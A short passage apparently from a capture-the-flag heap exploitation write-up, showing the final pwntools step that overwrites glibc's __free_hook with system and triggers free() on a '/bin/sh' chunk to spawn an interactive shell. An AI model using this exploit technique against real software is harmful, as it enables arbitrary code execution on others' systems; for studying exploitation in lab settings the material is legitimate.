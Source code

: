 ```python
# get an allocation near __free_hook, put '/bin/sh' string in the qword before __free_hook, and system address in __free_hook
adda(0x18, b'/bin/sh'.ljust(16,b'\x00')+p64(libc.symbols['system']))	# bloc 4

# when free will be called on bloc 4 , system('/bin/sh') well be executed
free(4)

p.interactive()
```

*nobodyisnobody still pwning things...*